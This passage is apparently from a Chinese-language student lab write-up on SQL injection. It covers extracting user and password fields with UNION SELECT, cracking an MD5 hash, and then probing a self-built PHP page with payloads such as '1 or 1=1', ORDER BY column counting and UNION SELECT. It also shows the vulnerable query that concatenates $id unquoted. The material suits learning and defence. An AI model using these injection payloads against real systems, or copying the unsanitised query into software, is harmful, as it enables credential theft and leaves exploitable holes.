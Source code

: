 利用 union select 获取**user 表**中**user 和 password**的信息  
根据之前确定的位置，我们可以知道，**First name**位置显示的是**user**信息，**Surname**位置显示的是**password**信息

我们拿最后一个去解密看看，忙猜 md5 加密，要是猜不中就猜 hash 加密等，然后一个个去尝试碰撞解密  
![md5](https://z3.ax1x.com/2021/04/13/cyVGLQ.png)  
从而得到明文密码 password

## 做个小练习

然后自己写一个简单的页面进行尝试，这也是网络攻防课程的报告内容（虽然课上不会做课后恶补才做出来）  
源码和数据库内容放后面

![self](https://z3.ax1x.com/2021/04/13/cyVlz8.png)

###### 1. 判断注入点是否存在及其类型

先确定注入点

```
输入“1'”，显示“没有ID为1\'的用户”
输入“1 or 1=1”，显示所有记录
输入“1 or 1=2”，显示“ID为1 or 1=2的用户名为admin”
输入“1' or '1'='2”，显示“没有ID为1\' or \'1\'=\'2的用户”
```

从而判断此处存在数字型注入点，即变量没有被引号引起来（看源码也能看见）  
要注意的是，讲道理作为数字型注入，输入“1'”是会报错的，但是我这里并没有。原因是 php 不区分单引号和双引号，而我的查询语句后面没东西了，所以这里输入的单引号和前面的双引号闭合，查询语句还是没有问题的  
看看源码

```
$sql = "SELECT account FROM user WHERE id=$id";

输入“1'”：$sql = "SELECT account FROM user WHERE id=1'";
还是符合sql语法的，因此没有报错

但是如果id后面还有东西那就会报错了，比如查询语句是这样的：
$sql = "SELECT account FROM user WHERE id=$id AND password=$password";
输入“1'”：$sql = "SELECT account FROM user WHERE id=1' AND password=$password";
这样就会因为括号不匹配而报错了
```

###### 2. 判断查询字段数

```
输入“1 order by 1#”，显示“ID为1 order by 1#的用户名为admin”
输入“1 order by 2#”，显示“没有ID为1 order by 2#的用户”
```

**得知只查询了一个字段（从源码看出只查询一个 account）**

###### 3. 确定显示位置

然后判断显示位置（其实不用判断，都只有一个位置，还能在哪显示）

```
输入“1 union select 1”，显示如下

ID为1 union select 1的用户名为admin
ID为1 union select 1的用户名为1
```

